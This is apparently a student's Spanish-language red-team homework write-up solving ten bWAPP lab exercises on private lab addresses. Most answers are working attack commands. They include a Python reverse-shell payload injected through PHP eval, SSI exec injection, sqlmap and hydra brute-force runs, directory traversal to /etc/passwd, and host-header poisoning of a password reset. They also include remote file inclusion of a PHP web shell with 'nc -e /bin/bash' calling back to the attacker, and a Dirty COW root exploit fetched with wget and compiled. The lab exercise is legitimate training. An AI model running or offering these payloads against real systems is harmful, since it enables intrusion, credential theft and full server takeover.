









# Tarea Evaluable Red Team

## Ejercicio 1

> El caracter que introduce fallo de seguridad es `;` ya que termina el comando de DNS lookup y ejecuta como un comando nuevo todo lo que se escriba luego del `;`


## Ejercicio 2

> En el path ejecuta un eval con el mensaje que se le envia por query param, aprovechando esa vulnerabilidad es posible ejecutar un reverse shell con este path, teniendo previsamente en mi kali con ip '192.168.1.50' y ejecutado el comando: `nc -nlvp 4444`:
```bash
http://192.168.1.51/bWAPP/phpi.php?message=system(%22python%20-c%20%27import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\%22192.168.1.50\%22,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\%22/bin/bash\%22)%27%22)
```


## Ejercicio 3

> Server Side Inclusion Injection es un ataque que se aprovecha de la ejecución del lado del servidor de comandos en el HTML antes de enviarlo al cliente, de esta forma podemos vulnerar el servicio con comandos como los siguientes:
```bash
<!--#exec cmd="whoami">
<!--#exec cmd="echo 'Vulnerable file' > UUU.html" -->
<!--#include file="UUU.html" -->
```



## Ejercicio 4

> `2` Usurarios. Al usar sqlmap es posible contar la cantidad de usuarios que tiene la tabla `users` con solo tener previamente un request a movie interceptado con Burp Suite, usando el siguiente comando:

```bash
sqlmap -u "http://192.168.1.39/bWAPP/sqli_13.php" --data="movie=1&action=go" --cookie="PHPSESSID=59d31218cafd6c78ff1d48f4f9af27b6; security_level=0" -D bWAPP -T users --count
```


## Ejercicio 5

La contraseña encontrada para el usuario alice fue `goat`:
```bash
hydra -l alice -P /usr/share/wordlists/fasttrack.txt ftp://192.168.1.48
```


## Ejercicio 6

El secreto encontrado en las cabeceras es: `QW55IGJ1Z3M%2F`
```bash
curl -I http://192.168.1.48/bWAPP/insecure_crypt_storage_3.php --cookie "PHPSESSID=459cd4a0d8edad05b7b27b43deb20f07; security_level=0;"
```


## Ejercicio 7

Una vulnerabilidad de tipo Directory Traversal Attack te permite llegar a archivos en el directorio usando la cadena `../`, de esta forma se puede explotar con la siguiente ruta:
```bash
http://192.168.1.48/bWAPP/directory_traversal_1.php?page=../../../../../../etc/passwd
```


## Ejercicio 8

Cambiando el IP en la cabecera "Host" se loca que se envia el código de recuperación a mi kali de esta forma obtengo: `12066924ac88ee0b15712c1fade94bd33866ebfa`


## Ejercicio 9

Tiene una vulnerabilidad de tipo *Remote File Inclusion*, que permite ejecitar un archivo en otro servidor, de esta forma si abro la URL:`http://192.168.1.48/bWAPP/rlfi.php?language=http://192.168.1.49/shell.txt&cmd=nc%20-e%20/bin/bash%20192.168.1.49%204444` permite ejecutar el file shell.txt que proveo desde mi kali en el puerto 80, el file tiene esta instrucción:
```bash
<?php system($_GET["cmd"]); ?>
```
de esta forma al servir con un servidor http:
```bash
python3 -m http.server 80
```
solo resta esperar a que el servidor de bWAPP se conecte por reverse shell por el puerto 4444:
```bash
nc -lvp 4444
```


## Ejercicio 10

Para cambiar a un usuario con los privilegios de root use un exploit `Dirty COW` para explotar la vulnerabilidad del kernel de esa version de linux


De esta forma proveo el file del exploit en mi server http por el puerto 80. Usando la reverse shell del ejercicio 9, bajo este exploit y lo ejecuto para crear un usuario root con contraseña `1234`
```bash
cd /tmp

wget http://192.168.1.49/dirty.c

gcc -pthread dirty.c -o dirty -lcrypt

chmod +x dirty

./dirty 1234
```
Luego busco correr una consola interactiva, y para ello:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Teniendo la consola interactiva solo resta cambiar a mi nuevo usuario root usando la constraseña `1234`
